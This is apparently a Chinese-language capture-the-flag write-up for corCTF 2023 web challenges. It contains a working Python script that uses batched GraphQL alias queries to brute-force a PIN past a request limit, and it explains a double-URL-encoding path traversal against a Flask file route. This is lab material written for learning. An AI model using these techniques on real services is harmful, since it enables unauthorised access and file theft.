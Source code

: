 # web
### force
#GraphQL
核心代码
```js
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230801191544.png)
要让传进去的flag\=\=一个随机数 ,而且限制了最大request,无法爆破

```http
POST / HTTP/1.1
Host: web-force-force-071653fc1aff533c.be.ax
Content-Length: 20
Sec-Ch-Ua: "Not/A)Brand";v="99", "Google Chrome";v="115", "Chromium";v="115"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Content-Type: text/plain
Accept: */*
Origin: https://web-force-force-328a9076b0a2deb6.be.ax
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://web-force-force-328a9076b0a2deb6.be.ax/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
    flag(pin:11)
}
```

不知道怎么绕过...

---

GraphQL的特性是支持一条http请求里执行多个查询也就是`batch query`
https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#batching-attacks
```python
{
batch1:flag(pin:0)

batch2:flag(pin:1)
}
```

*python*
```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
    
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}



while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
    
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
    
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
        
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

### msfrognymize
一个上传图片后对可以对人脸进行打码的网站

---
漏洞在查看文件处...可以目录穿越
```python
@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')
```
两次url编码,直接可以到根目录,光想着往上穿了
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230801221808.png)


# reverse
https://blog.solidity.kr/posts/(ctf)-2023-corctf/
### utterly-deranged
直接f5会提示`too big function`,修改配置文件里的选项,还是不行,反编译半天也没结果
我们需要反反编译


# pwn

# crypto

# Misc


---
# *相关wp*




2023-08-01   19:14